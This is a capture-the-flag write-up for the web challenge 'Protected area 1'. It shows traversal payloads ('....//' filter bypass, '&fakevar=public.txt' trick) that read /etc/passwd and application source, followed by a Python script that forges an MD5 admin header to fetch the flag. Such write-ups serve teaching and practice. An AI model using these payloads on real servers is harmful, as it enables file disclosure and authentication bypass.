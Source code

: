 # Protected area 1 (Web, 119p, 41 solved)

In the challenge we get access to a webpage.
In the source we can find a JS which uses some of the rest endpoints:

```js

var file_check = function(file){

    $.ajax({
        url: '/check_perm/readable/',
        data: {'file': file}
    }).done(function(data){
        if (data == "True") {
            file_read(file)
        }else{
            console.log('fail')
        }
    })
}

var file_read = function(file){

    $.ajax({
        url: '/read_file/',
        data: {'file': file}
    }).done(function(data){
        update_page(data)
    })

    return
}

var update_page = function(text){
    $("#t").append(text)
}

$(document).ready(function() {
    console.log("ready!");

    file_check('public.txt');
});
```

This means there are 2 endpoints:

1. Checking permissions for the files.
2. Reading files.

If we poke around a bit, we can notice that there is a path traversal bug there.
To be fair, this was much easier to spot with the part 2 of this problem, since part 2 was actually showing errors, including the file path it "calculated" based on our inputs.

It seems the page is simply removing `../` but doesn't do this recursively, so we can inject `....//` and when it removes `../` we're left with `../`.

From this we can do for example: `http://66.172.33.148:8008/read_file/?file=....//files/public.txt` and it reads the file just fine. 
We are restricted, however, to `.txt` files.

After some poking around we accidentally noticed that in fact the `.txt` filter somehow looks at the whole query, and not at the `file` variable!

We can verify this with: `66.172.33.148:8008/read_file/?file=....//....//....//etc/passwd&fakevar=public.txt`

Now we just need to leak the source code, starting with standard `app.py.` -> `66.172.33.148:8008/read_file/?file=....//....//....//etc/passwd&fakevar=public.txt`

Once we leak most of the source code we find `api.py` with:

```python
@app.route('/protected_area_0098', methods=['GET'])
@check_login
def app_protected_area() -> str:
    return Config.FLAG
```

And `functions.py` with login logic:

```python
def check_login(f):
    """
    Wraps routing functions that require a user to be logged in
    """
    @wraps(f)
    def wrapper(*args, **kwds):
        try:
            ah = request.headers.get('ah')

            if ah == hashlib.md5((Config.ADMIN_PASS + Config.SECRET).encode("utf-8")).hexdigest():
                return f(*args, **kwds)
            else:
                return abort(403)

        except:
            return abort(403)
        
    return wrapper
```

And also `config.py` with:

```python
FLAG       = os.environ.get('FLAG')
SECRET     = "s3cr3t"
ADMIN_PASS = "b5ec168843f71c6f6c30808c78b9f55d"
```

Now we can simply calculate the admin password and log-in to get the flag:

```python
import hashlib
import requests

def main():
    SECRET = "s3cr3t"
    ADMIN_PASS = "b5ec168843f71c6f6c30808c78b9f55d"
    p = hashlib.md5(ADMIN_PASS + SECRET).hexdigest()
    url = 'http://66.172.33.148:8008/protected_area_0098'
    r = requests.get(url, headers={"ah": p})
    print(r.text)


main()
```

`ASIS{f70a0203d638a0c90a490ad46a94e394}`
